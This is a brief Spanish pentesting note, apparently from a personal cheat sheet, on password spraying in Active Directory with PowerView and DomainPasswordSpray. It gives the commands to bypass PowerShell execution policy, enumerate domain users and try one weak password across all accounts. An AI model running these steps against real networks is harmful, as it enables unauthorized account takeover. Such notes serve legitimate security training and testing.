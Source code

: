 # Password Spraying 

Tags: #AD #Powershell #Windows #Enumeracion 

Técnica utilizada para adivinar simultáneamente las contraseñas de varias cuentas de usuario con un número reducido de intentos de contraseña. Su ventaja principal es proporcionar un método sigiloso para obtener acceso a varias cuentas de usuario sin activar el bloqueo de cuentas. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
❯ wget https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1
```

```bash
❯ powershell -ep bypass                   # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 


# Enumeracion de usuarios 
❯ . .\PowerView.ps1                       # Importar el modulo PS1
❯ Get-DomainUser | select-Object -ExpandProperty cn | Out-File user.txt        # Enumeracion de usuarios y el resultado lo guardamos en un archivo llamado user.txt


❯ . .\DomainPasswordSpray.ps1             # Importar el modulo para poder usar la funcion de 'Invoke' 
❯ Invoke-DomainPasswordSpray -UserList .\user.txt -Password 123456 -Verbose 
	# Password = Hacemos que la pasword '123456' la pruebe en todos los usuarios de la lista 'user.txt'
	# UserList = Lista de usuarios
```